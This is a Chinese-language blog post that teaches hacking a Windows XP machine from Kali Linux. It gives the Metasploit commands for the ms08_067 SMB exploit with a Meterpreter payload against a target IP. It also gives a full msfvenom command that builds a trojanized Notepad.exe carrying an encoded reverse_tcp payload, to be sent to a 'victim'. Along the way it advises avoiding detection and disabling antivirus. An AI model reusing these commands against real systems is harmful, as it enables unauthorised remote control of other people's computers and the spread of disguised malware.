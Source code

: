 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux 教程
keywords: windows linux kali 教程 黑
categoty: tech
cover: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.png'
---
```

### 前言
哈喽大家好。我有好久没更新博客了。  
在这段时间里，我变得非常黑。因为我在为kali做准备。  
前一段时间，我的电脑移到其他地方去了，然后我去插那边的网线，结果插上是插上了，响灯也想了，电脑上也写着连接了，有因特访问。可是，我进百度却进半天都没进去，竟然还连接超时，7456。  
然后有人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部*这里我用xp*
  - (可选)摄像头
  - (可选)麦克风

### 目录
- 直接攻击
  - 利用漏洞进行攻击
- 软件攻击
  - 编译软件并发送给受害者
  - 受害者接受并打开软件
  - “注入灵魂”
- 附录
  -Meterpreter命令

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![]({{ site.imgbed }}/img/kalihack/01.png)

### 02. 搜索Xp漏洞
也正是msf是一个安全渗透软件，所以我们可以查看漏洞。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。  
![]({{ site.imgbed }}/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
然后你会发现命令的提示符旁边多了个叫做`exploit(windows/smb/ms08_067-netapi)`的东西，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![]({{ site.imgbed }}/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到，命令的末尾有个`bind_tcp`。  
`bind tcp`是比较隐秘的会话。`reverse_tcp`是通过软件发起的对话。我等会儿会讲软件传播。  
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，我们要攻击Xp主机，需要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑，输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
知道后，回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址，RHOST可以说是全写Remote Host。这里我做个例子，ip地址是192.108.1.104。

### 06.开始攻击！
做完这些后，你就可以开始hack了！输入
```msf
exploit
```
![]({{ site.imgbed }}/img/kalihack/04.png)
![]({{ site.imgbed }}/img/kalihack/05.png)

<br /> <br /> <br />
***
<br />
### 01.编译软件和发送
你可以先弄出一个我们经常用的应用程序，然后把连接会话藏到这些应用里。这就是为什么在那些2008、2009年时说的“不要下载网站上未知来源的东西”。  
但现在我们有了360安全卫士啊，电脑管家啊那些杀毒软件就变得安全多了。对于我这个灰帽黑客兼MC博主来讲，This is a LITTLE problem。  
But anyways，我们关掉那台Xp的杀毒软件就行了鸭［滑稽］。  
好吧，我们废话不多说，开始正题。  
先在`~/`的位置里放置从电脑上拷贝出来的Notepad.exe  
然后在kali命令行里输入这段命令:  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.106.12.175 LPORT=4444 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > ~/NotepadPro.exe
```
这里我们可以看到-p指到了reverse_tcp了。-p全写就是payload鸭。
这里的LHOST是指你的Kali电脑的ip地址。
这里的LPORT是指你的Kali电脑的端口。随情况而定。
这里的-x是指源，然后msfvenom根据源进行修改和添加。  
至于后面，是指转成X86（32位系统）的软件exe格式。
